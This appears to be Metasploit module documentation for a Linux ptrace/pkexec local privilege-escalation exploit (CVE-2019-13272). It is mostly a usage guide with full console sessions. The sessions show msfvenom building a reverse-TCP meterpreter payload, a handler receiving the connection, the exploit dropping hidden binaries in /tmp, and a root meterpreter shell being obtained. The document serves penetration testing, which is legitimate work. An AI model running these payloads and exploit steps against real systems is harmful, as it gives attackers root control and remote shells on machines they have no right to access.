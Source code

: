 ## Vulnerable Application

This module exploits an issue in ptrace_link in kernel/ptrace.c before Linux
kernel 5.1.17. This issue can be exploited from a Linux desktop terminal, but
not over an SSH session, as it requires execution from within the context of
a user with an active Polkit agent.

In the Linux kernel before 5.1.17, ptrace_link in kernel/ptrace.c mishandles
the recording of the credentials of a process that wants to create a ptrace
relationship, which allows local users to obtain root access by leveraging
certain scenarios with a parent-child process relationship, where a parent drops
privileges and calls execve (potentially allowing control by an attacker). One
contributing factor is an object lifetime issue (which can also cause a panic).
Another contributing factor is incorrect marking of a ptrace relationship as
privileged, which is exploitable through (for example) Polkit's pkexec helper
with PTRACE_TRACEME. NOTE: SELinux deny_ptrace might be a usable workaround in
some environments.

  This module has been tested successfully on:
  * Ubuntu 16.04.5 kernel 4.15.0-29-generic
  * Ubuntu 18.04.1 kernel 4.15.0-20-generic
  * Ubuntu 19.04 kernel 5.0.0-15-generic
  * Ubuntu Mate 18.04.2 kernel 4.18.0-15-generic
  * Linux Mint 17.3 kernel 4.4.0-89-generic
  * Linux Mint 18.3 kernel 4.13.0-16-generic
  * Linux Mint 19 kernel 4.15.0-20-generic
  * Xubuntu 16.04.4 kernel 4.13.0-36-generic
  * ElementaryOS 0.4.1 4.8.0-52-generic
  * Backbox 6 kernel 4.18.0-21-generic
  * Parrot OS 4.5.1 kernel 4.19.0-parrot1-13t-amd64
  * Kali kernel 4.19.0-kali5-amd64
  * Redcore 1806 (LXQT) kernel 4.16.16-redcore
  * MX 18.3 kernel 4.19.37-2~mx17+1
  * RHEL 8.0 kernel 4.18.0-80.el8.x86_64
  * Debian 9.4.0 kernel 4.9.0-6-amd64
  * Debian 10.0.0 kernel 4.19.0-5-amd64
  * Devuan 2.0.0 kernel 4.9.0-6-amd64
  * SparkyLinux 5.8 kernel 4.19.0-5-amd64
  * Fedora Workstation 30 kernel 5.0.9-301.fc30.x86_64
  * Manjaro 18.0.3 kernel 4.19.23-1-MANJARO
  * Mageia 6 kernel 4.9.35-desktop-1.mga6
  * Antergos 18.7 kernel 4.17.6-1-ARCH

## Verification Steps

  1. Start msfconsole
  1. Get a shell or meterpreter session on the target
  1. Do: `use exploit/linux/local/ptrace_traceme_pkexec_helper`
  1. Do: `set session #`
  1. Do: `exploit`

## Options

### WritableDir

  A folder we can write files to.  Defaults to `/tmp`

### COMPILE
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 18.04 (with Linux 4.15.0-13-generic)

#### Initial Access

We need to gain an initial session on the target system before we can use this module.
Additionally this module will only work from a GUI session, and will fail with an SSH session.
In order to gain a compatible session we will upload a payload binary and run it from gnome-terminal.

```
# Create a payload binary
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f elf -o binary

# Start a handler
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.56.1:4444

# Execute the payload using gnome-terminal on the target

[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.7:33244) at 2019-09-03 17:42:17 +0800

meterpreter > background

```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
msf exploit(multi/handler) > use exploit/linux/local/ptrace_traceme_pkexec_helper
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set SESSION 1
SESSION => 1
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set VERBOSE true
VERBOSE => true
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > exploit
[*] Started reverse TCP handler on 192.168.56.1:4444
[+] Kernel version 4.15.0-13-generic appears to be vulnerable
[+] pkexec is installed
[*] Writing '/tmp/.zacecz' (285 bytes) ...
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.fmrefxhjjcq.c' (9718 bytes) ...
[*] Executing exploit '/tmp/.fmrefxhjjcq'
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Exploit result:
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[!] Warning: $XDG_SESSION_ID is not set
[!] Warning: Could not find active PolKit agent
[~] Done, looks good
[.] Searching for known helpers ...
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Spawning suid process (/usr/bin/pkexec) ...
[.] Tracing midpid ...
[~] Attached to midpid
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.7:58270) at 2019-09-03 17:29:57 +0800
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

```
msf exploit(multi/handler) > use exploit/linux/local/ptrace_traceme_pkexec_helper
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set SESSION 1
SESSION => 1
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > set COMPILE False
COMPILE => False
msf exploit(linux/local/ptrace_traceme_pkexec_helper) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] Kernel version 4.15.0-13-generic appears to be vulnerable
[+] pkexec is installed
[*] Writing '/tmp/.yaamzkukaml' (285 bytes) ...
[*] Dropping pre-compiled exploit on system...
[*] Writing '/tmp/.wtoplrisgzzo' (51200 bytes) ...
[*] Executing exploit '/tmp/.wtoplrisgzzo'
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Exploit result:
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[!] Warning: $XDG_SESSION_ID is not set
[!] Warning: Could not find active PolKit agent
[~] Done, looks good
[.] Searching for known helpers ...
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Spawning suid process (/usr/bin/pkexec) ...
[.] Tracing midpid ...
[~] Attached to midpid
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.7:58272) at 2019-09-03 17:30:16 +0800
```

